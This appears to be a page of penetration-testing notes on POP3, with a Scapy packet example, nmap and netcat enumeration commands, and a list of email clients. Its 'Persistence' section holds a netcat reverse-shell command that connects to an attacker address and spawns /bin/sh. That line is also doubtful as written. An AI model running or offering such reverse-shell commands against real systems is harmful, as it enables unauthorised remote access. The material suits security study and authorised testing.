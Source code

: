 ### [[Scapy]]
- **Example Code:**
    ```python
    from scapy.all import *
    pkt = IP(dst="<target_ip>")/TCP(dport=110)/Raw(load="USER username\r\n")
    send(pkt)
    ```

## Other Techniques

### Using Email Clients to access POP3
- **Description:** Leverage GUI email clients to access POP3.
	- **[[Evolution]]**
	- **[[Thunderbird]]**
	- **[[Microsoft Outlook]]**

# Penetration Testing Techniques

## External Reconnaissance

### Port Scanning
- **Tool:** [[Nmap]]
    ```bash
    nmap <target_ip> -p 110,995
    ```
- **Description:** Identifies if the target service is running on the target by scanning target port.

### Service Enumeration
- **Tool:** [[NetCat]]
    ```bash
    nc <target_ip> 110
    ```

## Persistence

### Maintaining Access
- **Tool:** [[NetCat]]
    ```bash
    echo "nc <attack_ip> 4444 -e /bin/sh" | nc <target_ip> 110
    ```
- **Description:** After gaining access, maintain persistence by creating reverse shells or scheduling tasks that connect back to the attacker's machine.

## Credential Harvesting
